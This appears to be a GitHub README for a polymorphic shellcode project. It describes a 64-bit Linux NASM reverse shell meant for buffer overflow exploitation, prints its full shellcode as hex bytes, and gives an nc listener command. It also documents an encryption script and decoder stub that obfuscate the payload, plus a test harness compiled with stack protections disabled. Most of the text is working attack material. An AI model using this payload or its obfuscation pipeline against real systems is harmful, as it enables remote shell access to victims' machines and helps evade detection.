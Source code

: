 # Polymorphic shellcode

## Reverse shell

The `reverseShell.asm` file is a NASM reverse shell for 64-bit Linux. It is the payload and grants us, during buffer overflow operation, shell access to the remote machine from our attack machine.

N.B.: We have to think about changing the `127.1.10.100` IP address to the IP address of the attack machine.

### Testing the correct functioning of the reverse shell

Compile the file using the following commands:
```
nasm -f elf64 reverseShell.asm
ld reverseShell.o -o reverseShell
```

Open the socket indicated in the program on your machine :
```
nc -l 127.1.10.100 31337 -v
```

Run the program :
```
/reverseShell
```

You should get a shell on your port with the rights of the user with whom you started the program.

## Shellcode ciphering

The `cipherShellcode.py` file is a program for encrypting the shellcode representing the `reverseShell.asm` program.

Usage :
```
./cipherShellcode.py --shellcode \x68\x7f\x01\x0a\x64\x66\x68\x7a\x69\x66\x6a\x02\x48\x31\xd2\x48\x31\xf6\x40\xb6\x01\x48\x31\xff\x40\xb7\x02\x48\x31\xc0\xb0\x29\x0f\x05\x48\x31\xd2\xb2\x11\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x40\xfe\xc6\xb0\x21\x0f\x05\x40\xfe\xc6\xb0\x21\x0f\x05\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\x31\xf6\x56\x57\x48\x31\xd2\x48\x8d\x3c\x24\x48\x31\xc0\xb0\x3b\x0f\x05 --cesarKey1 13 --XOR 7 --cesarKey2 18 --ROL1 3 --ROL2 5
```

N.B.: You can change the keys as you wish and use another shellcode as well. If a badchar is detected, this will be indicated and it will be enough to change one or more keys until you have a functional combination.

## Shellcode deciphering

The `decipherShellcode.asm` file is a NASM program for 64-bit Linux. It allows you to decrypt the encrypted shellcode.

N.B.: Note that if you change the keys in the encryption program you will also have to change the keys in this program.

Unlike the assembler code in our reverse shell, we won't be able to execute this code. Or more precisely, we will be able to, but it will generate a segfault since we don't have our encrypted shellcode on the stack.

## Shellcode testing

The `testShellcode.c` file is a program for testing the proper functioning of the final shellcode, which is the concatenation of the encrypted shellcode to the decoder shellcode.

### Testing the correct functioning of the final shellcode

Compile the file using the following command :
```
gcc -z execstack -fno-stack-protector -fno-pie -z norelro -fPIC testShellcode.c -o testShellcode
```

Open the socket indicated in the program on your machine :
```
nc -l 127.1.10.100 31337 -v
```

Run the program :
```
./testShellcode
```

You should get a shell on your port with the rights of the user with whom you started the program.

## Bonus

For a detailed explanation you can read the corresponding article on my blog : [https://nyxott.github.io/projects/shellcodepolymorphique](https://nyxott.github.io/projects/shellcodepolymorphique).

N.B.: The blog article is in French.

